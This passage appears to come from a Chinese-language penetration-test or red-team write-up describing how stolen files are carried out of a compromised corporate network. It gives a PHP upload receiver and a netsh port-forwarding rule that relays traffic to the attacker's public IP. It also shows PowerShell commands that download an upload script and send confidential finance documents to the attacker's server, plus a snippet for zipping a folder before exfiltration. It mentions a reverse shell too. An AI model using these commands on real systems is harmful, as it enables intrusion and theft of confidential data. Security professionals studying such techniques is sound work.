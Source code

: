 高兴了五分钟之后，我们反过来问自己：该怎样拿到文件呢？首先试了试我们公网服务器的FTP，但运气不佳，对方公司的防火墙屏蔽了服务。所以我们决定通过HTTP上传。

现在该是介绍我们钟爱的PHP语言的时候了，没错，我们大爱PHP~

我们在公网web服务器上用了一个简单的上传脚本



```
&lt;?php
// index.php
$pic = @$_FILES[‘pic’][‘name’];
$pic_loc = @$_FILES[‘pic’][‘tmp_name’];
echo (@move_uploaded_file($pic_loc,$pic)) ? “DONE” : “ERROR”; ?&gt;
```

接下来需要的就是一个带有文件上传功能的HTTP客户端了。[**Google一番**](http://blog.majcica.com/2016/01/13/powershell-tips-and-tricks-multipartform-data-requests/)，发现了一个极佳的Powershell脚本，于是上传到了SRVWSUS，命名为upload.ps1

要传送文件，就必须建立一个连接，在SRVWSUS上添加一条新的端口转发规则，这次在8889端口：



```
# SRVFILE1 &lt;-&gt; SRVWSUS:8889 &lt;-&gt; ATTACKER:80
interface portproxy add v4tov4 listenport=8889 listenaddress=0.0.0.0 connectport=80 connectaddress=&lt;OUR_PUBLIC_IP&gt;
```

设置好之后，就在SRVFILE1下载和执行了HTTP上传脚本。请注意，文件从SRVWSUS的8889端口下载，该端口映射到了我们服务器上PHP运行的80端口。我们的443端口映射的是SRVWSUS的8888端口，反向shell从那里接收命令。



```
PS C:tmp&gt;(New-Object Net.WebClient).DownloadFile(‘http://&lt;SRVWSUS_IP&gt;:8889/up.ps1′,’c:tmpupload.ps1’)
PS C:tmp&gt;. .upload.ps1
PS C:tmp&gt; invoke-upload -infile f:financereservedSupersecret.docx -uri http://&lt;SRVWSUS_IP&gt;:8889/
content:System.Net.Http.StreamContent
DONE
PS C:tmp&gt; invoke-upload -infile f:financereservedbalance.xlsx -uri http://&lt;SRVWSUS_IP&gt;:8889/
content:System.Net.Http.StreamContent
DONE
```

[![](https://p3.ssl.qhimg.com/t018e47b23fcb42c9e8.png)](https://p3.ssl.qhimg.com/t018e47b23fcb42c9e8.png)

成功将机密文件转窃取到了我们的web服务器，任务完成！

这次我们没有发现什么太大的文件，如果有的话，可以用zip压缩他们，powershell命令如下：



```
$src= “f:finance”
$dst= “c:tmpfiles.zip”
[Reflection.Assembly]::LoadWithPartialName(“System.IO.Compression.FileSystem”)
[System.IO.Compression.ZipFile]::CreateFromDirectory($src,$dst,[System.IO.Compression.CompressionLevel]::Optimal,$true)
```
